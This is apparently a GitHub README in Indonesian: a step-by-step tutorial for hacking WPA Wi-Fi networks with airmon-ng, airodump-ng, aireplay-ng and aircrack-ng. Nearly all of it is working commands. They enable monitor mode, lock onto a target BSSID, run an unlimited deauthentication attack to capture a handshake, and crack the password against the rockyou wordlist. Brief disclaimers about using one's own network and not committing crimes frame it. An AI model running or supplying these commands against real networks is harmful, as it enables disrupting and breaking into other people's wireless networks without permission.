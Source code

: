 # hacking-wifi >>> airmon-ng >>> aerodump-ng >>> aircrack-ng 

sekedar catatan jika lupa </p>
untuk memulai percobaan harap memakai jaringan wifi kalian terlebih dahulu..</p>
ini bekerja di system os linux </p>
untuk cara ini secara default menggunakan kali-linux</p>
## TUTORIAL HACK WIFI + CRACKING 

untuk membuka ip address ketikkan perintah :
```bash
ip addr
```

pengaturan semula wificard biasanya dalam mode managed 
bisa di cek lewat perintah :
```bash
iwconfig
```
untuk menghindari konfik jaringan (refresh) bisa dengan perintah :</p>
catatan : ini mematikan semua koneksi internet!
```bash
sudo airmon-ng check kill
```
untuk mengubah dari mode managed ke mode monitor :
```bash
sudo airmon-ng start wlan0
```
ketikkan perintah di bawah ini untuk cek apakah sudah dalam mode monitor atau tidak
```bash
iwconfig
```
cek nama interface wifi - wificard : umunnya adalah wlan0/wlan0mon
```bash
sudo airmon-ng
```
untuk memonitoring jaringan wifi yang tersedia :</p> 
(ctrl+c) untuk stop scan 
```bash
sudo airodump-ng wlan0
```
jangan lupa untuk mencatatat bssid target dan channelnya...
</p>
catat bssid target contoh  : 98:F4:28:47:85:C8 >>> berada di channel : 11</p>
<p>
jika sudah kita saring/filter single target memakai perintah :

```bash
sudo airodump-ng wlan0 -d 98:F4:28:47:85:C8
```
sekarang waktunya menyimpan + menjalankan progam jahatnya..
sebagai contoh seperti ini : 
```bash
sudo airodump-ng -w hack1 -c 11 --bssid 98:F4:28:47:85:C8 wlan0
```
catatan : 
* opsi -w untuk menyimpan file 
* opsi hack1 : nama file
* opsi -c : channel wifi
* opsi --bssid : alamat bssid target (ganti bssid target yg di atas hanyalah sebuah contoh saja)
* opsi wlan0 nama perangkat wifi/card

setelah dirasa sudah paham bukalah terminal baru / tab baru
ketikkan :
```bash
sudo aireplay-ng --deauth 0 -a 98:F4:28:47:85:C8 wlan0 
```
jika berhasill sniff jaringan ada yg berjabat tangan
otomatis di terminal pertama akan ada tulisan </p>
(wpa handsake)
atau tulisan AEPOL / apa ya saya lupa ...</p>
itu berarti program sdh berhasil mendapatkan jabat-tangannya.
</p>
harap di ingat kita hanya butuh 2 tab terminal yg berjalan..
</p>
silahkan close semua program di terminalnya,
</p>
bisa menggunakan >>> ctrl+c 
</p>
sekarang waktunya ganti program aircrack
</p>
perlu diketahui file yg tersimpan biasanya tersimpan di path HOME/
</p>
untuk mengetahui tentang informasi hasil snif tsb 
</p>
bukalah file - contoh file hack1.pap dengan program wireshark
</p>
bisa dilakukan dengan terminal di path nya:

```bash
wireshark hack1-01.cap
```
atau bisa membuka dengan doble click di filenya
</p>
opsional : untuk menghidupkan jaringan internet seperti semula :

```bash
sudo airmon-ng stop wlan0
```
sekarang kita akan menjalankan program AIRCRACK
</p>
ketikkan :

```bash
sudo aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt
```
gantilah nama file hack1-01.cap dengan file yg tersimpan di direktori kalian </p>
catatan :</p>
jika file rockyou.txt blm ada kalian bisa ektrak dlu file tsb</p>
cari di direktori /usr/share/wordlist/</p>

tunggu beberapa saat aircrack mengidentifikasi sandi </p>
hasil crack sandi berbeda-beda tergantung kesulitannya</p>
semakin rumit sandi itu akan semakin lama </p>
apalagi sandi tsb di atas 10 karakter dan angka</p> 
jadi jangan berharap itu bs berhasil cepat dan sempurna...</p>




opsional : tambahan untuk mengecek wifi adapter kamu support inject atau tidak nya :
```bash
aireplay-ng -9 wlan0
```
```bash
iw list | grep AP$
```

sekian catatan informasi untuk menjalankan sebuah program aircrack dan kawan2nya....</p>

## DILARANG KERAS UNTUK MELAKUKAN TINDAK KEJAHATAN
